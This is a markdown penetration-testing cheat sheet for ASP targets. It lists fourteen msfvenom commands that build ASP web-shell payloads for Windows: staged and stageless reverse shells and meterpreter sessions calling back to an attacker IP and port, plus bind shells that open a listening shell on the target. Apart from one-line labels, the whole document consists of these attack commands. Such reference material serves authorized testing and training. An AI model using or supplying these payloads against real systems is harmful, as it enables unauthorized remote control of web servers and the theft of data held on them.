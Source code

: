 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - windows
---
```

# ASP

## Reverse Shells

Stageless x86 (32-bit) reverse shell.

```
$ msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o payload-x86.asp
```

Stageless x86_64 (64-bit) reverse shell.

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o payload-x86-64.asp
```

Staged x86 (32-bit) reverse shell.

```
$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o payload-x86.asp
```

Staged x86_64 (64-bit) reverse shell.

```
$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o payload-x64.asp
```

Staged x86 (32-bit) `meterpreter` reverse shell.

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o payload-x86.asp
```

Stageless x86-64 (64-bit) `meterpreter` reverse shell.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o payload-x64.asp
```

Stageless x86 (32-bit) `meterpreter` reverse shell.

```
$ msfvenom -p windows/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o payload-x86.asp
```

Stageless x86-64 (64-bit) `meterpreter` reverse shell.

```
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o payload-x64.asp
```

## Bind Shells

Staged x86 (32-bit) bind shell.

```
$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f asp -o payload-x86.asp
```

Stageless x86-64 (64-bit) bind shell.

```
$ msfvenom -p windows/x64/shell_bind_tcp lport=<PORT> -f asp -o payload-x64.asp
```

Staged x86 (32-bit) `meterpreter` bind shell.

```
$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f asp -o payload-x86.asp
```

Staged x86-64 (64-bit) `meterpreter` bind shell.

```
$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f asp -o payload-x64.asp
```

Stageless x86 (32-bit) `meterpreter` bind shell.

```
$ msfvenom -p windows/meterpreter_bind_tcp lport=<PORT> -f asp -o payload-x86.asp
```

Stageless x86-64 (64-bit) `meterpreter` bind shell.

```
$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f asp -o payload-x64.asp
```